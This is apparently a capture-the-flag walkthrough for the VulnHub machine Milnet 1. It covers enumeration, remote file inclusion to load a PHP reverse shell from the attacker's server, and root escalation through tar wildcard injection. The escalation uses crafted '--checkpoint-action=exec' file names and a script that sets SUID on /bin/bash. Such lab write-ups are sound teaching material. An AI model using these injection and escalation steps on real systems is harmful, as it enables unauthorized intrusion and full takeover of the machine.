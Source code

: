 # MILNET: 1

## 1.GET VM IP

```text
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       (Unknown)
192.168.127.231 00:0c:29:a0:3b:c4       (Unknown)
192.168.127.254 00:50:56:fd:64:8a       (Unknown)
```

The VM IP is `192.168.127.231`, let's enumerate it.

## 2.Enumeration

```text
root@kali: nmap -sV -sC 192.168.127.231 -p- -v -oN fullscan

Nmap scan report for 192.168.127.231
Host is up (0.0018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9b:b5:21:38:96:7f:85:bd:1b:aa:9a:70:cf:db:cd:36 (RSA)
|   256 93:30:be:c2:af:dd:81:a8:25:2b:57:e5:01:49:91:57 (ECDSA)
|_  256 37:40:2b:cc:27:ae:89:22:d0:d2:65:65:c4:9b:53:42 (ED25519)
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
MAC Address: 00:0C:29:A0:3B:C4 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets' see the web page :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d8bfdcd-6cef-4e90-8159-46237d681b72)

analyzing the website shows that it is using basic functions and have basic pages, but if you look closer you see a parameter

that is used to call each page, `route`, which opens new pages :


![route](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7fb366da-a6bd-4447-85c8-1c60876b3dea)

since this is a parameter that loads other pages, i decided to first FUZZ for any other pages available by this parameter :

```text
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "route=FUZZ" -u http://192.168.127.231/content.php -fs 1

[Status: 200, Size: 146, Words: 7, Lines: 10, Duration: 13ms]
    * FUZZ: index

[Status: 200, Size: 110, Words: 8, Lines: 6, Duration: 14ms]
    * FUZZ: main

[Status: 200, Size: 64312, Words: 2958, Lines: 703, Duration: 12ms]
    * FUZZ: info

[Status: 200, Size: 533, Words: 31, Lines: 16, Duration: 12ms]
    * FUZZ: nav

[Status: 500, Size: 369, Words: 37, Lines: 12, Duration: 609ms]
    * FUZZ: content

[Status: 200, Size: 3902, Words: 519, Lines: 30, Duration: 7ms]
    * FUZZ: bomb

[Status: 200, Size: 254, Words: 26, Lines: 14, Duration: 6ms]
    * FUZZ: props
```

yes, i found `info` directory and navigated to it using firefox `edit and resend`:

![php](https://github.com/Git-K3rnel/VulnHub/assets/127470407/38b760ba-2a44-4598-aea3-b1390c349ab3)

it shows phpinfo which is alot useful, pay attention to this section :

![urlopen](https://github.com/Git-K3rnel/VulnHub/assets/127470407/74d321a3-7aa5-4f23-ad53-aa2d0c3425e6)

this line shows that we can include external URLs and it loads it, meaning maybe we have `RFI` here, the `route`

parameter is interesting because it suspicious to `LFI` too :

![LFI](https://github.com/Git-K3rnel/VulnHub/assets/127470407/25f01221-8a2c-45b0-87a8-9f48772b0242)

as you can see, it loads the info page again. so since we have LFI and RFI here, i first tried to load the

source code of the pages with PHP wrapper base64 encode :

![wrapper](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1483dd4b-0c48-45ab-a622-bb0bbe4d3040)

but it did not show anything.

## 3.Gaining Shell

I tried to use RFI and used pentest monkey php reverse shell and saved it to `revshell.php`

and using python http server i served the file and sent a request to my server to get a reverse shell.

![revshell2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/697ee6df-ce27-4ce6-9b59-ba01419cfbfa)

![revshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ea55107b-0949-4777-a469-91908ddc07df)

yes, this is our shell.

## 4.Privilege Escalation

One of the first things i do each time gaining access to a machine is to check crontab file and its subdirectories :

```text
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /backup/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

luckily we see that every one minute a file `backup.sh` is being executed, let's see the permission and content of this file :

```text
$ ls -l /backup/backup.sh
-rw-r--r-x 1 root root 57 May 21  2016 /backup/backup.sh

$ cat /backup/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *
```

as it is shown, it has root permissions and it is going to make a backup of all `/var/www/html` contents by using `tar` command.

i just got confused by the way it is doing it, after a little research and seeing hacktricks site for `tar` command [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar)

i noticed that using wildcard here is the problem and can lead to arbitary command execution since it is in `Wildcards Spare tricks` section of hacktricks website.

then i researched about tar wildcard exploitation and found hacking articles talking about it [here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

this the way i exploited this vulnerability :

```text
$ cd /var/www/html

$ echo "" > --checkpoint=1

$ echo "" > "--checkpoint-action=exec=sh shell.sh"

$ echo '#!/bin/bash' > shell.sh

$ echo 'chmod +s /bin/bash' >> shell.sh

$ cat shell.sh
#!/bin/bash
chmod +s /bin/bash
```

wait a minute and then check the permission of the bash executable :

```text
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037464 Sep  1  2015 /bin/bash
```

as we expected there is a SUID on this binary, what we need to do is to execute it like this :

```text
$ /bin/bash -p

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cd /root

ls
credits.txt

cat credits.txt
        ,----,
      ,/   .`|
    ,`   .'  :  ,---,                          ,---,.
  ;    ;     /,--.' |                        ,'  .' |                  ,---,
.'___,/    ,' |  |  :                      ,---.'   |      ,---,     ,---.'|
|    :     |  :  :  :                      |   |   .'  ,-+-. /  |    |   | :
;    |.';  ;  :  |  |,--.   ,---.          :   :  |-, ,--.'|'   |    |   | |
`----'  |  |  |  :  '   |  /     \         :   |  ;/||   |  ,"' |  ,--.__| |
    '   :  ;  |  |   /' : /    /  |        |   :   .'|   | /  | | /   ,'   |
    |   |  '  '  :  | | |.    ' / |        |   |  |-,|   | |  | |.   '  /  |
    '   :  |  |  |  ' | :'   ;   /|        '   :  ;/||   | |  |/ '   ; |:  |
    ;   |.'   |  :  :_:,''   |  / |        |   |    \|   | |--'  |   | '/  '
    '---'     |  | ,'    |   :    |        |   :   .'|   |/      |   :    :|
              `--''       \   \  /         |   | ,'  '---'        \   \  /
                           `----'          `----'                  `----'


This was milnet for #vulnhub by @teh_warriar
I hope you enjoyed this vm!

If you liked it drop me a line on twitter or in #vulnhub.

I hope you found the clue:
/home/langman/SDINET/DefenseCode_Unix_WildCards_Gone_Wild.txt
I was sitting on the idea for using this technique for a BOOT2ROOT VM prives for a long time...

This VM was inspired by The Cuckoo's Egg.
If you have not read it give it a try:
http://www.amazon.com/Cuckoos-Egg-Tracking-Computer-Espionage/dp/1416507787/
```

yes, this is how we can root this machine :)





